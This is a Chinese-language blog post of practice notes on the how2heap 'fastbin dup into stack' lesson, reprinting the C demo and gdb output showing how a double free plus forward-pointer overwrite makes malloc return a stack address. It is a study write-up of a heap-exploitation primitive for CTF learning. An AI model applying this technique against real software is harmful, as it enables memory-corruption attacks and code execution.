 ```yaml
---
title: how2heap-03 fastbin dup into stack实践笔记
time: 2017-08-06
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

# 示例源码

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	printf("The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);
  /* [1] */
	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);

	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);

	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	printf("Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);

	unsigned long long *d = malloc(8);

	printf("1st malloc(8): %p\n", d);
	printf("2nd malloc(8): %p\n", malloc(8));
  /* [2] */
	printf("Now the free list has [ %p ].\n", a);
	printf("Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	printf("Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
  /* [3] */
	printf("3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	printf("4th malloc(8): %p\n", malloc(8));
  /* [4] */
}
```

本节示例的漏洞程序可以从此处下载： [fastbin_dup_into_stack](/files/how2heap/fastbin_dup_into_stack)

# 漏洞分析

这节是上节fastbin dup的扩展，目的是获得一个指向任意地址的指针，在这里我们是获得一个栈的指针

我们用gdb挂起程序，运行到`[1]`位置，此时我们定义了一个指针，指针的地址为`0x7fffffffdb68`，而我们希望`malloc()`返回的地址为`0x7fffffffdb70`

``` bash
The address we want malloc() to return is 0x7fffffffdb70.
```

继续向下，和`fastbin-dup`类似，因此具体过程不再描述，这里直接向下运行到`[2]`处

在`[2]`位置，程序新定义了一个指针`d`，指向新分配的内存地址，也就是chunk `a`的地址。往下，我们的目的是在栈中写入一个`伪造的free chunk的大小`，在这里我们是`stack_var`并设定为`0x20`

随后在`[3]`位置`*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));`，这意思是将point `d`指向`stack_var`的上一个位置

``` bash
gdb-peda$ freebins
fast bin 0 @ 0x602000
	free chunk @ 0x602000 - size 0x20
	free chunk @ 0x7fffffffdb60 - size 0x20
	free chunk @ 0x602010 - size 0x0
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602000 ] (32)
                            [ 0x7fffffffdb60 ] (32)
                            [ 0x602010 ] (32)
```

可以看见，实际上，通过修改了`fastbins`上的数据，伪造了一个新的`bin`，其中这个伪造`bin`的大小为`0x20`，地址为`0x7fffffffdb60`，也就是`*d = &stack_var - sizeof(d) = 0x7fffffffdb68 - 0x08 = 0x7fffffffdb60`,从而向`fastbins`添加了一个伪造的bin，即`[ 0x602000 ] -> [0x7fffffffdb60]`，这时再`malloc(8)`，那么申请两次，便可以获得一个栈上的地址，这个栈上的地址为`8+(char *)&stack_var`，即`[0x7fffffffdb70]`

即得到结论

> 通过fastbins的2free并覆盖fastbins结构，我们可以获得一个指向任意地址(比如栈)的指针

![fastbin_dup_into_stack](/images/how2heap/fastbin_dup_into_stack.png)
